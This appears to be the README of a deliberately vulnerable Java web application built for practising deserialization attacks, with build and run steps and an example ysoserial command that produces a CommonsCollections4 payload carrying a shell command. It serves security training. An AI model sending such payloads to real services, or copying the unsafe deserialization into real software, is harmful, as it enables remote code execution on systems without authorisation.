 # java-deserialize-webapp

This application will attempt to java deserialize user provided input. commons-collections4:4.0 is on classpath and it can be used for playing around with exploitation.

![deserialize](https://cloud.githubusercontent.com/assets/4956006/15084178/28306b00-13d2-11e6-97a5-e8c08f25150b.png)

## Building

(already done)

```sh
mvn clean package
```

## Running

By default, application binds to 0.0.0.0:8000 (to bind to localhost, edit src/main/java/hvqzao/java/deserialize/webapp/embedded/Server.java file and rebuild the project).

Linux:

```sh
git clone https://github.com/hvqzao/java-deserialize-webapp
cd java-deserialize-webapp
sh target/bin/webapp
```

Windows:

```sh
git clone https://github.com/hvqzao/java-deserialize-webapp
cd java-deserialize-webapp
start target/bin/webapp.bat
```

## Example attack

```sh
java -jar ysoserial-0.0.4-all.jar CommonsCollections4 'shell command...' | base64 | tr -d "\n"
```

Payload must also be properly url-encoded.

## License

[MIT License](LICENSE)

